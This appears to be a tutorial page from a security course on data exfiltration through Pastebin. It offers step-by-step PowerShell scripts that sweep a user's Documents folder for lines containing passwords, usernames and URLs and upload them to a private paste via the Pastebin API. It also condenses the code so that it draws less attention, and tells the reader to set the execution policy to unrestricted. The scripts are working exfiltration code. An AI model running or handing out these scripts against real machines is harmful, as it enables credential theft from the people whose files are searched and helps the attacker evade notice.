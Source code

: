 ```yaml
---
layout: default
title: Data Exfiltration using Pastebin
nav_order: 6
---
```

# First demo

Go to the folder where you previously created logindata.ps1 and create a new file called `new-pastebin.ps1` with the code below. Open your terminal and run new-pastebin.ps1 (don't doubleclick in windows, run it via the Powershell terminal)

You might have to launch powershell as administrator first to change the set-executionpolicy to "unrestricted"

`set-executionpolicy unrestricted`

1. Observe the results. You will see an URL
2. Visit this URL

```
#Demo 1, Something easy. Userkey won't be used yet so everything is anonymous
. .\logindata.ps1
$Content    =   Invoke-WebRequest -Uri "https://ipinfo.io/json"
$Title      =   "pastebin1"

$Body = @{ 
    api_dev_key         = $DevKey;
    #    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "0"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
## Preparing more advanced use of Pastebin
Thus far, our data exiltration is public.​ Thanks to the API key we can upload to Pastebin but we need to use authentication to make it private, so let’s make it private​ 😃.

For this we need to setup our “userkey”​

This means we will use 2 keys​: 
1. Our dev key, which we already have​.
2. Our user key, which still needs creation.

### Userkey creation

Create a new file called `get-apiuserkey.ps1`, using the code below.
```
$DevKey     = PUT-DEV-KEY-HERE
$Username   = PUT-PASTEBIN-USERNAME-HERE
$Password   = PUT-PASTEBIN-PASSWORD-HERE
$PasteBinLogin = "https://pastebin.com/api/api_login.php"
$Body = @{ 
    api_dev_key = $DevKey;
    api_user_name	= $Username;
    api_user_password = $Password;
    }

Invoke-WebRequest -Uri $PasteBinLogin -UseBasicParsing -Body $Body -Method Post -OutFile Api_user_key.txt
```
- Fill in the 3 required variables at the top.
- Run the script from the terminal.
- Your userkey is saved in Api_user_key.txt
- Add this key to logindata.ps1


Once this is done… we’re cooking!

### Create some dummy files
For demo purposes we're going to create 2 dummy files: `password.txt` and `secrets.txt` put these 2 files in your documents folder: `C:\Users\$env:username\Documents`

password.txt has the following contents
```
PUT THIS FILE IN C:\Users\$env:username\Documents
I do silly things like sometimes putting passwords in files. 
```
secret.txt has the following contents
```
PUT THIS FILE IN C:\Users\$env:username\Documents
this is my secret file
my password for example.com is Kameham3ha!
my username for example.com is ThebrokeShadower
https://www.example.com/login-or-something
```
# Second demo
Create a new file called "new-pastebin2.ps1" and copy paste the following data in it:
```

#Demo 2, let's grab some passwords from local files!
. .\logindata.ps1
$Content    =   ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path
$Title      =   "pastebin2"

$Body = @{ 
    api_dev_key         = $DevKey;
    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "2"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
Execute new-pastebin2.ps1 from the terminal. If all goes well, you will have this pastebin under your personal account on the pastebin.com website.
But there seems to be a problem?

# Third demo

Powershell stores the data in an object. Which is not bad but invoke-webrequest doesn’t understand it and thus the parsing is bad.
Let’s convert the data to a format which will work.
Create new-pastebin3.ps1 and observe the difference with new-pastebin2.ps1
```
. .\logindata.ps1
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path)
$Title      =   "pastebin3"

$Body = @{ 
    api_dev_key         = $DevKey;
    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "2"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```


Now launch new-pastebin3.ps1 from the terminal.
Observe the results in your pastebin.com account

# Fourth demo
We want to generate a bit less attention so we will try to have less lines of code on our screen.
Luckily, we can do this by using “;” in powershell
Create new-pastebin4.ps1 and new-pastebin5.ps1

new-pastebin4.ps1
```
. .\logindata.ps1
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path); $Title="pastebin3"
$Body = @{ api_dev_key=$DevKey; api_user_key=$UserKey; api_paste_name=$Title;api_paste_code=$Content;api_paste_private="2";api_option="paste";}
Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
new-pastebin5.ps1
```
$DevKey="PUT-DEVKEY-HERE";$UserKey="PUT-USER-KEY-HERE"
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path); $Title="pastebin3"
$Body = @{ api_dev_key=$DevKey; api_user_key=$UserKey; api_paste_name=$Title;api_paste_code=$Content;api_paste_private="2";api_option="paste";}
Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
Observe the concatenation done in those 2 files.
What is the difference between 4 and 5? Why would this be?
